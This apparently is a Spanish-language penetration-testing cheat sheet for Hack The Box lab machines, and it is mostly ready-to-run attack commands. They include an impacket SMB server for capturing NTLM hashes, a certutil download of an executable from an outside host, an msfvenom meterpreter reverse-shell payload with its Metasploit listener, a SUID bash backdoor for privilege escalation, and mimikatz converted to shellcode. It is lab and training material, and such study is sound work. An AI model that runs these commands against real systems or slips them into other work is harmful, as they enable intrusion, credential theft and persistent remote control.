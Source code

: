 



## Local port fowarding

esto desde la maquina atacante, es decir, tu mismo, esto se conecta por ssh a la maquina victima y levanta el tunel por ese puerto.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

## smb

crear una carpeta compartida rapida por smb y poder capturar hashes NTLM

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



## mssql

```bash
impacket-mssqlclient  sequel.htb/PublicUser:GuestUserCantWrite1@sequel.htb
```





## Subdomain enumeration

```bash
wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://flight.htb/" -H "Host: FUZZ.flight.htb" --hl 154
```






## File trasnfer

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
```



## PAYLOAD msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=4444 -f exe -o shell.exe
```


### Listener

```bash
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.20
set LPORT 4444
set ExitOnSession false
exploit -j

```


## Modules



```bash
run post/multi/recon/local_exploit_suggester
```





## Windows-exploit-suggester


tenemos que ejecutar primero esto en la maquina *windows* victima

```cmd
sysinfo
```


----------


```bash
python2 /opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --update
```

```bash
/opt/Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-05-13-mssb.xls --systeminfo sysinfo
```





## bash SUID

```bash
cp /bin/bash /tmp/bash && chmod u+s /tmp/bash
```

## exe2Shellcode

```bash
xxd -i mimikatz.exe > shellcode.h
```



